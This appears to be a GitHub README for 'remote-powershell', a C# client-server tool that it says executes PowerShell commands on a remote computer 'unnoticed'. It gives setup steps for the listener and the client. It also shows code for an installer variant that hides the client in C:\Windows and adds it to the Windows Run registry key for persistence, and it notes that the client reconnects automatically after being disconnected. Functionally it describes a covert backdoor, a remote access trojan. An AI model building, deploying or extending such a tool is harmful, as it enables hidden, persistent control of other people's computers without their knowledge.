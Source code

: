 # remote-powershell

It is a terminal-based application that allows you to execute commands on a remote computer in PowerShell unnoticed.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
// Change IPAddress.Any (IP) and 8802 (Port) to the one you need
TcpListener tcpListener = new TcpListener(IPAddress.Any, 8802);
```

| Command           | Description                                                                  | Syntax                        | Aliases |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | ------- |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec    |
| connection list   | Gives a list of all active remote connections                                | connection list               |         |
| connection remove | Forcibly disconnects the specified remote client from the server             | connection remove [client-id] |         |
| clear             | Clears the terminal                                                          | clear                         |         |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

Please note that if you use services that will help you expand your local network, you may have problems reconnecting the client back to the server after it is turned off, as the connection will remain active for the client.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```